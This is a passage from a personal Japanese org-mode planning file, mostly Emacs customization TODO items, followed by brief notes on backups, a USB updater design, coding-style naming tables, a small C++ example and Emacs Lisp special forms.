4) 優先順位の根拠
   容易かつ有用

5) 備考

******* TODO [#B] 自動で対応した括弧を挿入

1) 結果

2) 背景 (問題点)
   気のきいた括弧挿入を行いたい

3) 対応方法
   autopair
   http://www.emacswiki.org/emacs/NavigatingParentheses

4) 優先順位の根拠
   かなり重要。
   作業効率に関る

5) 備考

****** 7.3.7. [2/3]  Numbering
******* DONE [#B] Renumber 連番挿入
        CLOSED: [2012-12-26 Wed 06:00]

1) 結果
   renumber functions
   cua-mode

2) 背景 (問題点)
   連番挿入 を簡単にする

3) 対応方法
   http://www.emacswiki.org/emacs/RenumberList

4) 優先順位の根拠
   使用頻度
   利用頻度共に多い

5) 備考

******* DONE [#B] Increment Number
        CLOSED: [2012-12-26 Wed 06:06]


1) 結果

2) 背景 (問題点)
   region 内の数字を incremental
   interactive に増やす数値を決める
   region がなければ buffer 内の数字全てを incremental

3) 対応方法
   http://www.emacswiki.org/emacs/IncrementNumber

4) 優先順位の根拠
   頻度は多い

5) 備考

******* TODO [#C] Visible Number

1) 結果

2) 背景 (問題点)
   並んでいる数値の視認性が惡い

3) 対応方法
   buffer 内の数値をすべて数字４桁づつにコンマを挿入 "1,000"

4) 優先順位の根拠
   緊急性はない

5) 備考

****** 7.3.8. [1/3]  Sort
******* POSTPONES [#B] region 内を sort

1) 結果
   - alphabet  sort-lines
   - number    sort-numeric-fields
   - random    sort-random
   - 長さ順

2) 背景 (問題点)
   region 内の文字列を sort

3) 対応方法
   - alphabet
   - number
   - 五十音順
   - 長さ順
   - reverse

4) 優先順位の根拠
   統計などの文字列を操作したい場合が多々ある

5) 備考

******* POSTPONES [#B] list 内を Sort

1) 結果
   sort-words
   sort-symbols

2) 背景 (問題点)
   list 内を sort し視認性をあげる

3) 対応方法
   - alphabet
   - number
   - 長さ順

4) 優先順位の根拠

5) 備考

******* DONE [#B] rectangle 内を基準に line を Sort
        CLOSED: [2012-12-24 Mon 12:29]

1) 結果
   sort-colums

2) 背景 (問題点)
   region 内の文字列を sort

3) 対応方法
   - alphabet
   - number
   - 五十音順
   - 長さ順
   - reverse

4) 優先順位の根拠
   統計などの文字列を操作したい場合が多々ある

5) 備考

****** 7.3.9. [0/1]  Comments
******* POSTPONES [#B]  Header / Document 作成／ update

1) 結果
   change log の自動更新のみ未達

2) 背景 (問題点)
   find-file file を新規作成時に template を挿入
  + file name
    + Copyright
    + Commentary
    + change log
    + (defvar auto-document-version "$Id: auto-document.el,v 1.16 2010/05/04 09:00:52 rubikitch Exp $")
  - save-before-file file 名 などを update
    関数名 変数 の index を header に挿入

3) 対応方法
   header2.el

4) 優先順位の根拠
   library を作成／ update する時に有用

5) 備考

****** 7.3.10. [0/9] Alignment
******* TODO [#C] 文章を右揃え・中央揃えに整形する

1) 結果

2) 背景 (問題点)
   text 整形
3) 対応方法
   調査

4) 優先順位の根拠
   text mode ぐらいでしか使わない

5) 備考

******* TODO [#B] 空白文字で分割して整形。各フィールドは左揃え。

1) 結果

2) 背景 (問題点)
   text 整形

3) 対応方法
   align command

4) 優先順位の根拠
   プログラミングで利用

5) 備考
******* TODO [#B] 空白文字で分割して整形。各フィールドは右揃え。

1) 結果

2) 背景 (問題点)

3) 対応方法

4) 優先順位の根拠

5) 備考

******* TODO [#B] 空白文字で分割して整形。ダブルクォートで囲まれたフィールドをサポート。各フィールドは左揃え。

1) 結果

2) 背景 (問題点)
   text 整形

3) 対応方法
   align command

4) 優先順位の根拠
   プログラミングで利用

5) 備考

******* TODO [#B] 指定したセパレータで分割して整形。各フィールドは左揃え。

1) 結果

2) 背景 (問題点)
   text 整形

3) 対応方法
   align command

4) 優先順位の根拠
   プログラミングで利用

5) 備考

******* TODO [#B] 指定したセパレータで分割して整形。各フィールドは右揃え。

1) 結果

2) 背景 (問題点)
   text 整形

3) 対応方法
   align command

4) 優先順位の根拠
   プログラミングで利用

5) 備考

******* TODO [#B] 行末のバックスラッシュの位置の整形。シェルスクリプト用。

1) 結果

2) 背景 (問題点)
   text 整形

3) 対応方法
   align command

4) 優先順位の根拠
   プログラミングで利用

5) 備考

******* TODO [#B] 複数の変数を一度に宣言していたら、その宣言を 1 行ずつの変数宣言に変換する。

1) 結果

2) 背景 (問題点)
   text 整形

3) 対応方法
   align command

4) 優先順位の根拠
   プログラミングで利用

5) 備考

******* TODO [#B] 小数点の位置で数値を整形。

1) 結果

2) 背景 (問題点)
   text 整形

3) 対応方法
   align command

4) 優先順位の根拠
   プログラミングで利用

5) 備考

****** 7.3.11. [3/4] Insert template
******* DONE [#B] 日付挿入
        CLOSED: [2012-12-05 Wed 21:35]

1) 結果
   popup.el で導入
   timestamp-insert

2) 背景 (問題点)
   日付を挿入

3) 対応方法
   auto-complete などで挿入

4) 優先順位の根拠
   利用頻度は多い

5) 備考

******* DONE [#B] File name
        CLOSED: [2012-12-05 Wed 21:43]

1) 結果
   ac-source-filename

2) 背景 (問題点)
   file name を簡単に入力する。

3) 対応方法
   http://www.emacswiki.org/emacs/InsertFileName

4) 優先順位の根拠
   利用頻度は高い

5) 備考

******* DONE [#C] License
        CLOSED: [2012-12-26 Wed 08:12]

1) 結果

2) 背景 (問題点)
   comment に license を挿入

3) 対応方法
   autoinsert

4) 優先順位の根拠
   逼迫した需要はない

5) 備考

******* TODO [#C] ac-source kill-ring

1) 結果

2) 背景 (問題点)
   kill-ring を ac-sources にいれる

3) 対応方法
   ac-source candidate

4) 優先順位の根拠
   利用できると便利

5) 備考

****** TODO [#B] 上書きモード（ Ovwrt モード）

1) 結果

2) 背景 (問題点)
   上書きモードを paste 時などで利用

3) 対応方法
   調査

4) 優先順位の根拠
   緊急性はない

5) 備考

**** 9. History
***** 8.1. Running Time
****** DONE [#B] 起動、終了時刻を記録。
       CLOSED: [2012-12-03 Mon 14:48]

1) 結果

2) 背景 (問題点)
   起動、終了時刻を記録。
   統計に使えるようにする。

3) 対応方法

   [[#Emacs.log][Start & Exit log]]

4) 優先順位の根拠
   起動速度をあげるため必要

5) 備考

***** 8.2. Undo Redo
****** TODO [#B] undo redo を file ごとに disk に保存する。

1) 結果

2) 背景 (問題点)
   undo redo を file ごとに disk に保存する。

3) 対応方法
   undohist.el

4) 優先順位の根拠
   編集内容を損失しない為必要

5) 備考

****** DONE [#C] region 内のみ undo
       CLOSED: [2012-12-05 Wed 21:55]

1) 結果
   region and undo
   C-u C-z

2) 背景 (問題点)


3) 対応方法
   http://www.emacswiki.org/emacs/SelectiveUndo
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=undo

4) 優先順位の根拠
   利用頻度は低い
   逼迫した需要はない。

5) 備考

****** TODO [#B] save した時点を一句切とし bookmark の様に其の時点まで undo, redo する。


1) 結果

2) 背景 (問題点)

3) 対応方法
   undo point
   - http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=undo%20group

4) 優先順位の根拠
   有用である

5) 備考
****** TODO [#C] 編集履歴の見える化

1) 結果

2) 背景 (問題点)
   編集履歴を overlay する

3) 対応方法
   undo-tree

4) 優先順位の根拠
   あると便利だが逼迫した需要はない

5) 備考

***** 8.3. Kill-ring
***** 8.4. Command
****** TODO [#B] macro の環境を整る。

1) 結果

2) 背景 (問題点)
マクロの編集
マクロリング
マクロにキーを割り当てる

3) 対応方法


4) 優先順位の根拠
   利用頻度は高い

5) 備考

***** 8.5. Find-file
****** TODO [#B] file の open close save の log をとる

1) 結果

2) 背景 (問題点)
   file の open save close の log をとる


3) 対応方法

   [[#Emacs.log][Open Save Close log]]
   http://www.emacswiki.org/emacs/SaveLog
   http://www.emacswiki.org/emacs/Journal


4) 優先順位の根拠
   統計をとるため履歴参照のため必要

5) 備考

****** TODO [#B] file open の履歴をとる

1) 結果

2) 背景 (問題点)

3) 対応方法
   recentf

4) 優先順位の根拠
   重要

5) 備考

****** DONE [#B] recentf の調整
       CLOSED: [2012-12-05 Wed 22:31]

1) 結果
   recentf-auto-cleanup "11:00pm"

2) 背景 (問題点)
   保存間隔、 cleanup 間隔を調整する。

3) 対応方法

4) 優先順位の根拠
   起動速度にも関ってくるので重要

5) 備考

***** 8.6. Window
****** TODO [#C] window の undo 見える化

1) 結果

2) 背景 (問題点)
   window の undo を見える化
   線で図を表示できると良い
   artist mode で作成されたような線で書かれた window の
   配列を anything のようなインターフェースで選択し undo
   する。

3) 対応方法
   調査
   anything などで選択できるようにする。

4) 優先順位の根拠
   導入に時間が係りそうなのであとにする。


5) 備考

***** 8.10. Changelog
***** TODO [#A] ChangeLog の取扱環境を整る

1) 結果

2) 背景 (問題点)
- Subversion と連携
  Changelog に記載時に header, Changelog に記載。そして、
  commit log にも反映できるようにする。


3) 対応方法
   http://www.dodgson.org/omo/t/?date=20051013
   http://d.hatena.ne.jp/pyopyopyo/20070920/p1

4) 優先順位の根拠
   変更履歴を確認できるので早めに導入する。


5) 備考

**** 10. Display
***** 9.1. Frame
****** TODO [#B] Toggle bar

1) 結果

2) 背景 (問題点)
   menu-bar scroll-bar vertical-scroll-bar まとめて toggle
   まとめて off する関数
   まとめて on する関数

3) 対応方法
   関数作成

4) 優先順位の根拠
   導入が簡単

5) 備考


****** TODO [#C] 新しいフレームの作成

1) 結果

2) 背景 (問題点)
   新しいフレームをコマンドで作成

3) 対応方法


4) 優先順位の根拠
   緊急性はない

5) 備考

****** TODO [#B] Frame の表示位置をコマンドで切り換える

1) 結果

2) 背景 (問題点)
   frame の表示位置をコマンドで移動

3) 対応方法
   テンキーの配列を利用する。

4) 優先順位の根拠
   移動に便利

5) 備考

****** TODO [#A] Frame の最大化

1) 結果

2) 背景 (問題点)
   Frame の title を最大化時は nil にする。
   最大化時、 frame の縁をなくす

3) 対応方法
   windows http://www.emacswiki.org/emacs/FullScreen


4) 優先順位の根拠
   利用時にはほぼ必ず最大化して使うので

5) 備考

****** TODO [#C] 透過

1) 結果

2) 背景 (問題点)
   一時的に全ての文字を消す。
   透過モードでバックグラウンドの文字を見るため

3) 対応方法
   調査

4) 優先順位の根拠
   逼迫した需要はない

5) 備考

***** 9.2. Window
****** Split
******* TODO [#A] split window move

1) 結果

2) 背景 (問題点)
   移動先に window がなければ split して作成。
   素早く連続して入力した場合は縁を越て移動しない。

3) 対応方法
   関数を作成

4) 優先順位の根拠


5) 備考

******* TODO [#C] 分割禁止 window 設定

1) 結果

2) 背景 (問題点)
   分割したくない window を設定する。

3) 対応方法
   variable などを設定する。

4) 優先順位の根拠
   逼迫した需要なし

5) 備考

******* TODO [#B] 決った形に分割

1) 結果

2) 背景 (問題点)
   使用用途にあわせて window を分割

3) 対応方法
  + follow-mode
  + view-mode
  + coding-mode

4) 優先順位の根拠
   http://www.bookshelf.jp/soft/meadow_30.html#SEC414
   e2wm

5) 備考

****** TODO [#C] window の削除

1) 結果

2) 背景 (問題点)
   - 意図した window を削除。
     番号を選んで削除。
   - 現在の window を削除
   - 他の window を削除
   - 他の全ての window を削除

3) 対応方法
   調査が必要

4) 優先順位の根拠
   方法を探す

5) 備考

****** TODO [#C] Change window size

1) 結果

2) 背景 (問題点)
- 意図した大きさになるのが理想
- acejump のようにコマンド後に overlay で目標となる位置
  を表示して選ぶ。拡大／縮小する時に座標を表示する。
  中心などがわかりやすいようにする。
- interactive に拡大／縮小
- mouse で拡大／縮小
- 横幅を 80 にする。


3) 対応方法
   調査必要
4) 優先順位の根拠


5) 備考

****** TODO [#B] Translate window

1) 結果

2) 背景 (問題点)
   - 容易に意図した window のみを入替
   - 番号を選択して入替
   - interactive に入替
   - window buffer の入替

3) 対応方法
   http://www.emacswiki.org/emacs/ToggleWindowSplit


4) 優先順位の根拠
   利用頻度は多い

5) 備考

****** TODO [#C] Popup

1) 結果

2) 背景 (問題点)
   特定の window を popup で表示する。

3) 対応方法
   popwin

4) 優先順位の根拠
   e2wm でできるので

5) 備考
****** TODO [#B] Multi window

1) 結果

2) 背景 (問題点)
   multi cursor で編集
   複数の window で同時編集

3) 対応方法
   http://www.emacswiki.org/emacs/RecursiveEditPreservingWindowConfig

4) 優先順位の根拠
   multi cursor を導入してから

5) 備考

***** 9.3. Scrolling
****** TODO [#C] recenter

1) 結果

2) 背景 (問題点)
   cursor 位置を window の中央へ scroll

3) 対応方法
   keybind

4) 優先順位の根拠
   導入簡単 key の割当だけ

5) 備考

****** TODO [#C] cursor の位置を window の top へ scroll

1) 結果

2) 背景 (問題点)

3) 対応方法
   関数作成

4) 優先順位の根拠
   導入簡単

5) 備考

****** TODO [#C] 他の window を scroll

1) 結果

2) 背景 (問題点)
   他の window を scroll

3) 対応方法
   関数はあるが keybind の割当を見直す必要がある。

4) 優先順位の根拠
   導入簡単

5) 備考

****** TODO [#C] page 分割があれば page に合せる。

1) 結果

2) 背景 (問題点)
   cursol 移動時 page 分割があればそれにあわせて scroll する

3) 対応方法
   調査

4) 優先順位の根拠
   逼迫した需要なし

5) 備考

****** TODO [#C] page 番号を表示

1) 結果

2) 背景 (問題点)
   page 番号を表示する
   mode-line などにも表示できるように考慮

3) 対応方法
   調査

4) 優先順位の根拠
   逼迫した需要なし

5) 備考

****** TODO [#C] Horizontal scrolling

1) 結果

2) 背景 (問題点)
   横に scroll

3) 対応方法
   関数利用

4) 優先順位の根拠
   逼迫した需要なし

5) 備考

***** 9.4. Fringe
****** TODO [#C] 行の折り返し表示を変更する

1) 結果

2) 背景 (問題点)
   行の折り返し表示を見易くする

3) 対応方法

4) 優先順位の根拠
   逼迫した需要はない

5) 備考

***** 9.5. Mode-line
****** TODO [#B] default の mode-line 表示

1) 結果

2) 背景 (問題点)
| Current Line | Max Line | , | Column | Coding Style | Buffer name | Modify | Remote | minor mode |

3) 対応方法
   mode-line-format を編集

4) 優先順位の根拠
   mode-line で情報を確認できるようになると
   コマンドを打つ手間がなくなるので重要

5) 備考

****** TODO [#C] 状況に応じて mode-line の表示を変える。

1) 結果

2) 背景 (問題点)
   余り表示の必要のない buffer には表示を最小限にとどめる。

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=mode-line-hack

4) 優先順位の根拠
   逼迫した需要なし

5) 備考

****** TODO [#C] auto-save の状況を表示

1) 結果

2) 背景 (問題点)
   auto-save されていれば表示

3) 対応方法
   関数を書く

4) 優先順位の根拠
   逼迫した需要なし

5) 備考
****** TODO [#B] local vc の状況を表示

1) 結果

2) 背景 (問題点)
   local version control の作成状況を表示

3) 対応方法
   version control の関数から探す

4) 優先順位の根拠
   作成されているか気になることがあるので重要

5) 備考

****** TODO [#A] mode-line color

1) 結果

2) 背景 (問題点)
   反映されないことがあるので修正
   + view-mode なら赤系
   + 書込み可能なら緑系
   + 編集されたら文字の色を変える。


3) 対応方法
   view-mode

4) 優先順位の根拠
   視覚的に状況が解るので重要

5) 備考

****** TODO [#C] history 情報の表示を考える

1) 結果

2) 背景 (問題点)
  + undo redo
  + winner undo redo
  + point undo redo
  + last-command


3) 対応方法
   調査

4) 優先順位の根拠
   導入してみないと利便性がわからないものもあるので
   検討

5) 備考

****** TODO [#C] 文字数を count

1) 結果

2) 背景 (問題点)
   mode-line に buffer 全体の文字数を count する
   重くなる可能性

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=taiyaki%20wordcount

4) 優先順位の根拠
   逼迫した需要はない

5) 備考

****** TODO [#C] Minor mode の表示

1) 結果

2) 背景 (問題点)
   mode-line の表示領域が限られているので
   minor-mode の表示を縮める

3) 対応方法
   minor-mode-alist

4) 優先順位の根拠
   逼迫した需要なし

5) 備考

****** TODO [#C] notePC ならバッテリーの残量を表示

1) 結果

2) 背景 (問題点)
   notePC のバッテリー情報を表示

3) 対応方法
   notePC かどうかの確認

4) 優先順位の根拠
   現在逼迫した需要なし

5) 備考

****** TODO [#C] 時間の表示を考える

1) 結果

2) 背景 (問題点)
   時間を mode-line に表示する

3) 対応方法
   調査必要

4) 優先順位の根拠
   調査する

5) 備考

****** TODO [#C] ファイル名がかぶった場合にバッファ名をわかりやすくする。

1) 結果

2) 背景 (問題点)
   ファイル名がかぶった場合にバッファ名をわかりやすくする。

3) 対応方法
   uniquify

4) 優先順位の根拠
   導入済
   設定の見直し

5) 備考

****** TODO [#B] 編集すれば mode-line-buffer-id の色を変更。

1) 結果

2) 背景 (問題点)
   編集すれば mode-line-buffer-id の色を変更。

3) 対応方法
   mode-line-format を編集

4) 優先順位の根拠
   利便性が高い

5) 備考

****** TODO [#B] universal-argument を count する。

1) 結果

2) 背景 (問題点)
   universal-argument を count する。

3) 対応方法
   mode-line-format を編集

4) 優先順位の根拠
   利用してみないとわからないが
   おそらく利便性あり

5) 備考

***** 9.6. Cursor
****** TODO [#B] Change Cursor

1) 結果

2) 背景 (問題点)
   Change cursor 日本語

3) 対応方法
   http://www.emacswiki.org/emacs/ChangingCursorDynamically
   http://www.emacswiki.org/emacs/cursor-chg.el

4) 優先順位の根拠
   使用頻度、利便性が高い

5) 備考

***** 9.7. Font
****** TODO [#B] *Message* に使用 font を記載。

1) 結果

2) 背景 (問題点)
   Message から使用 font を調べることができる

3) 対応方法
   message 関数

4) 優先順位の根拠
   利便性もあり導入が容易

5) 備考
****** TODO [#B] Main Font と Sub Font を設定する。

1) 結果

2) 背景 (問題点)
   Font がない場合を考慮して予備を用意する

3) 対応方法
   fontlock

4) 優先順位の根拠
   利用頻度が多いので

5) 備考

****** TODO [#C] .emacs.d/ に ricty があるのでそこから読むようにする。

1) 結果

2) 背景 (問題点)
   他の環境で利用するとき

3) 対応方法
   file を指定する

4) 優先順位の根拠
   緊急性はなし

5) 備考

****** TODO [#C] ricty の i l 1 を見間違えないように改造する

1) 結果

2) 背景 (問題点)
   ricty の i l 1 は見間違えやすい

3) 対応方法
   i は そのまま
   l を 変更
   1 を 下線を引く

4) 優先順位の根拠
   変更はかなり困難が予想される

5) 備考

****** TODO [#C] フォントの横幅を調節する

1) 結果

2) 背景 (問題点)
   フォントの幅を調整

3) 対応方法

4) 優先順位の根拠
   逼迫した需要はない

5) 備考

****** TODO [#C] 文字サイズ 変更

1) 結果

2) 背景 (問題点)
   文字を大きくする
   文字を大きくする

3) 対応方法
   text-scale-increase text-scale-decrease

4) 優先順位の根拠
   緊急性はない

5) 備考

***** 9.8. Syntax Color
****** TODO [#C] フォントロックのフェイスで動作を変える

1) 結果

2) 背景 (問題点)

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=tmmofl

4) 優先順位の根拠
   逼迫した需要はない

5) 備考

**** 11. Help
****** TODO [#C] Documment ref

1) 結果

2) 背景 (問題点)

3) 対応方法
   langhelp http://jp.rubyist.net/magazine/?0017-langhelp
4) 優先順位の根拠

5) 備考

****** TODO [#B] Info tab 化

1) 結果

2) 背景 (問題点)
   info を tab 化して表示

3) 対応方法
   tabify

4) 優先順位の根拠
   利便性は高い

5) 備考

***** Algorithm
***** man ページの表示
***** コード表 表示
***** python document
***** Info
**** 12. Advanced Features
***** Maintenance mode
****** Compile
****** Package 管理
****** Keybind
****** 統計
****** Profile
***** Registers
***** Remote
***** Network
****** proxy
****** Web Browser
****** tramp
****** ftp
***** Shell
***** Printer
***** Scheduler
****** 時間管理ツール
****** カレンダの表示
****** ダイアリ機能
***** elisp で gui を自動操作。 auto hotkey のようなもの。
***** いろんなものを階層化して表示 ― ee
***** こそっとエディタ
***** 書き起こし
***** minimap
***** Hex 入力補助
***** subdir 一覧を得る

** Backup Server                                              :backup_server:
   [backup_server]
*** 容量
	- 無制限で利用できるところがよい。

*** location
	- 災害回避の為に国外が望ましい

** hacker
*** regular expression
*** electronics workship
**** TODO 電子工作の基礎を勉強
**** TODO 計画を立てる。
*** programming
**** 高級言語
***** C C++
**** 低級言語
***** assembly
**** 軽量言語
***** python
***** perl
***** shell script
** emergency_mode
*** Goal
	- 緊急時に完全削除。
	- 削除プログラムも削除。
	- クライアントは緊急削除用フォルダを作っておく。
	  そこにファイルを入れプログラムを発動する。
	- 各ソフトのキャッシュを削除

** Program
*** Python
**** update usb
***** Interface
****** CUI
0. Exit
1. All update
2. All update force
3. Select update

***** directory
update_usb/
  +--- __init__.py
  +--- update_usb.py
  +--- updater/
        +--- __init__.py
        +--- etc.py

***** process

[1] Confirm update require.
1.1. check using version.
1.2. check latest version.
1.3. if using program is up to date, do next

[2] Preparation
2.1. download latest version.
2.2. if file type is archive, then extract it.

[3] Do upgrade
3.1. if file type is installer, then use it.
3.2. if program is stand alone, then copy file.
3.3. if program has a lot of files, then copy direcory.

[4] Finalize
4.1. if file type is archive, then delete folder.


[5] Message
5.1
5.2 log

append [program, version, 'Aready up to date.']

# Common
1. check using version
3. confirm update require
4. if obsolete using version, download latest version

# differ

**** 国会議員 rss
***** 議員候補一覧 (候補含む)
****** source
- 党から抽出
- wiki

***** 現衆議院議員一覧
****** source
- 衆議院のページ
- wiki

***** 現参議院議員一覧
****** source
- 参議院のページ
- wiki

**** XAHK
***** Events
      *File Event*
      + File Created Event
      + File Deleted Event
      + File Modified Event
      + File Moved Event
      + File Open Event
      + Directory Created Event
      + Directory Deleted Event
      + Directory Modified Event
      + Directory Moved Event
      *Window Event*
      + Key Event
      + Mouse Event
      + Joystick Event
      + Window Created Event
      + Window Destroy Event
      + Window Maximized Event
      + Window Minimized Event
      + Window Hide
      + Drop to Window Event       
      + Window Activate Event
      + Window Deactivate Event
      + Window FocusIn, FocusOut Event    
      + Window Show Event
      + Window Move Event
      + Window Reize Event
      + Window Child Added Event
      + Window Child Remove Event
      + Window ParentChange Event
      + Window Close Event
      + Window Title Change Event
      + Window Fullscreen Event
      + Window Shaded Event
      + Window StateChanged Event
      + Window PID Changed Event
      + Cursor Change Event
      + Cursor Event: changed under window
      + Cursor Enter, Leave Event
      + Drag Enter, Leave, Move Event
      + Enter Edit Focus Event
      + Gesture Event
      + KeyboardMapChanged Event
      + Clipboard Event
      + Touch Begin Event
      + Touch Cancel Event
      + Touch End Event
      + Touch Update Event
      + Workspace Change
      + Window Workspece Change
      *System Event*
      + Shutdown Event
      + Buttery Event
      + Power Event
      + HotPlug Event
      + Environ Event 環境変数
      + DVD/CD Drive Event
      *Schedule Event*
      + Timer Event
      + Idle Timer Event
      *Network Event*
      + Other Local Host Add Event
      + Adapter Added


* Develop
** Common Develop
*** Lab
*** project 管理
*** Policy
**** 変数
**** 関数
**** 条件文
*** Default Coding Style
**** Naming Conventions
|-------------------------+----------------------------------------------------------------------------|
| Entity                  | Description                                                                |
|-------------------------+----------------------------------------------------------------------------|
| ClassName               | Class names are in mixed upper and lower case with an                      |
|                         | initial capital letter.                                                    |
|-------------------------+----------------------------------------------------------------------------|
| TypeName                | Type definitions including enumerated types and                            |
|                         | typedefs use mixed upper and lower case with an initial                    |
|                         | capital letter                                                             |
|-------------------------+----------------------------------------------------------------------------|
| EnumeratedTypes         | In addition to the rule above, enumerated types are                        |
|                         | always stated in the plural form.                                          |
|-------------------------+----------------------------------------------------------------------------|
| localVariable           | Local variables are in mixed uppercase and lowercase                       |
|                         | with an initial lower case letter. The name should be                      |
|                         | independent of the underlying data type and should                         |
|                         | refer to whatever the variable represents.                                 |
|-------------------------+----------------------------------------------------------------------------|
| RoutineName ()          | Routines are in mixed uppercase and lowercase.                             |
|-------------------------+----------------------------------------------------------------------------|
| m_ClassVariable         | Member variables that are available to multiple routines                   |
|                         | within a class, but only within a class, are prefixed with                 |
|                         | an m_.                                                                     |
|-------------------------+----------------------------------------------------------------------------|
| g_GlobalVariable        | Global variables are prefixed with a g_.                                   |
|-------------------------+----------------------------------------------------------------------------|
| CONSTANT                | Named constants are in ALL_CAPS.                                           |
|-------------------------+----------------------------------------------------------------------------|
| MACRO                   | Macros are in ALL_CAPS.                                                    |
|-------------------------+----------------------------------------------------------------------------|
| Base_EnumeratedType     | Enumerated types are prefixed with a mnemonic for                          |
|                         | their base type stated in the singular?for example,                        |
|                         | Color_Red, Color_Blue.                                                     |
|-------------------------+----------------------------------------------------------------------------|
| TypeName                | Type definitions use mixed upper and lower case with                       |
|                         | an initial capital letter                                                  |
|-------------------------+----------------------------------------------------------------------------|
| GlobalRoutineName ()    | Public routines are in mixed uppercase and lowercase.                      |
|-------------------------+----------------------------------------------------------------------------|
| f_FileRoutineName ()    | Routines that are private to a single module (file) are                    |
|                         | prefixed with an f-underscore.                                             |
|-------------------------+----------------------------------------------------------------------------|
| LocalVariable           | Local variables are in mixed uppercase and lowercase.                      |
|                         | The name should be independent of the underlying data                      |
|                         | type and should refer to whatever the variable                             |
|                         | represents.                                                                |
|-------------------------+----------------------------------------------------------------------------|
| f_FileStaticVariable    | Module (file) variables are prefixed with an f-underscore.                 |
|-------------------------+----------------------------------------------------------------------------|
| G_GLOBAL_GlobalVariable | Global variables are prefixed with a G_ and a                              |
|                         | mnemonic of the module (file) that defines the variable                    |
|                         | in all uppercase?for example, SCREEN_Dimensions.                           |
|-------------------------+----------------------------------------------------------------------------|
| LOCAL_CONSTANT          | Named constants that are private to a single routine or                    |
|                         | module (file) are in all uppercase?for example,                            |
|                         | ROWS_MAX.                                                                  |
|-------------------------+----------------------------------------------------------------------------|
| G_GLOBALCONSTANT        | Global named constants are in all uppercase and are                        |
|                         | prefixed with G_ and a mnemonic of the module (file)                       |
|                         | that defines the named constant in all uppercase?for                       |
|                         | example, G_SCREEN_ROWS_MAX.                                                |
|-------------------------+----------------------------------------------------------------------------|
| LOCALMACRO ()           | Macro definitions that are private to a single routine or                  |
|                         | module (file) are in all uppercase.                                        |
|-------------------------+----------------------------------------------------------------------------|
| G_GLOBAL_MACRO ()       | Global macro definitions are in all uppercase and are                      |
|                         | prefixed with G_ and a mnemonic of the module (file)                       |
|                         | that defines the macro in all uppercase?for example, G_SCREEN_LOCATION (). |
|-------------------------+----------------------------------------------------------------------------|

**** Prefixes
|----------+--------------------------------------------------------------------------------|
| Semantic | meanig                                                                         |
|----------+--------------------------------------------------------------------------------|
| c        | Count (as in the number of records, characters, and so on)                     |
|----------+--------------------------------------------------------------------------------|
| first    | The first element that needs to be dealt with in an array. first is similar to |
|----------+--------------------------------------------------------------------------------|
| min      | but relative to the current operation rather than to the array itself.         |
|----------+--------------------------------------------------------------------------------|
| g        | Global variable                                                                |
|----------+--------------------------------------------------------------------------------|
| i        | Index into an array                                                            |
|----------+--------------------------------------------------------------------------------|
| last     | The last element that needs to be dealt with in an array. last is the          |
|          | counterpart of first.                                                          |
|----------+--------------------------------------------------------------------------------|
| lim      | The upper limit of elements that need to be dealt with in an array. lim is     |
|          | not a valid index. Like last, lim is used as a counterpart of first. Unlike    |
|          | last, lim represents a noninclusive upper bound on the array; last             |
|          | represents a final, legal element. Generally, lim equals last + 1.             |
|----------+--------------------------------------------------------------------------------|
| m        | Class-level variable                                                           |
|----------+--------------------------------------------------------------------------------|
| max      | The absolute last element in an array or other kind of list. max refers to     |
|          | the array itself rather than to operations on the array.                       |
|----------+--------------------------------------------------------------------------------|
| min      | The absolute first element in an array or other kind of list.                  |
|----------+--------------------------------------------------------------------------------|
| p        | Pointer                                                                        |
|----------+--------------------------------------------------------------------------------|



**** タブ幅
**** タブをスペースに変更
**** パラグラフのインデント
*** Change Log
*** Tags
*** Documentation Lookup
*** Comments
*** Completion
*** Window
*** Cycle
**** Design
**** Code Reading
- ref. http://i.loveruby.net/ja/misc/readingcode.html

***** Over view
- Make preprocessor, callgraph and name list while Specification
****** Build & Run
:実行して確認 変更させて動作させる:

- 関数すべてに"in <関数名>"の debug print を挿入
  関数がよばれるたびにカウントし print する。
  表示は file 名,関数名を表示。
  log を取る。

- 変数の変更があれば表示
****** Specification
******* Constraction
- Directory Constraction
- File Constraction
****** History
- Changelog
- Readme
- mailing list
- news
- subversion
****** Preprocessor
****** minimap
******* TODO follow mode
******* TODO left view and imenu
******* TODO Microsoft Word
******* TODO Libre Office Writer
****** Callgraph
- doxygen
****** symbol list
- functions
- variables
- classes
******* Expand abbreviation
***** Commenting on source
***** Jump Function or Variable
***** Document
****** TODO [0/2] 簡易表示
******* TODO arguments
******* TODO Summary

****** TODO [0/2] 詳細表示
******* TODO info
******* TODO source

****** TODO [0/2] Document History
******* TODO visited count
******* TODO memo

**** Edit Source
***** Pseudocode
- コメントで疑似コードを下書きする。
***** Code navigation
***** Template
***** refactoring
***** Interpreter
**** Compile build (error check)
**** Profile
**** Run
**** Test
**** Debug
***** コンパイルエラー
***** ランタイムエラー
***** 論理エラー
**** SubVersion
** Programming Languages
*** C C++
**** Coding Style
**** stl
***** array
#include <array>
#include <algorithm>
#include <functional>
#include <numeric>
#include "print.cc"
using namespace std;

int main (int argc, char **argv)
{
  array<int, 10> a = {11, 22, 33, 44};
  PRINT_ELEMENTS (a);
  a.back () = 9999999;
  a[a.size ()-2] = 42;
  PRINT_ELEMENTS (a);
  return 0;
}


*** Emacs Lisp
**** Coding Style
**** Interpreter
***** scratch
**** tmp
***** special form
****** with-current-buffer
       1.	そのバッファを一時的にカレントバッファにする
****** save-excursion
       save-excurtion に入った時点のポイント位置、マーク位置、
       カレントバッファを記憶し、引数中の処理を行った後にそれらを復帰する。
****** save-match-data
       match-data の内容を保存して引数内を評価した後で、 match-data の内容を復帰する。
****** unwind-protect
       unwind-protect は, body からどのように制御が離れた場合にも cleanup-forms の実行を保証して, body を実行
       する. body は通常どおり完了するか, throw を実行して unwind-protect から脱出するか, エラーを引き起こす.
       いずれの場合でも, cleanup-forms は評価される.
****** save-selected-window
       一時的にウィンドウを選択し、その後で元のウィンドウに戻す
****** condition-case
       この特殊フォームは、エラーが出さ (訳注： signal) れた場合、 (処理の全体をアボートするのではなく) Lisp プ
       ログラムが、そのエラーを扱うことができるようにします。 condition-case フォームは評価されると、まず
       (signal が探す) 特殊なマーカーをスタック上に置きます。次に、 form を評価します。 form がエラーを生ずる
       ことなく評価された場合、その結果を condition-case の値とします。

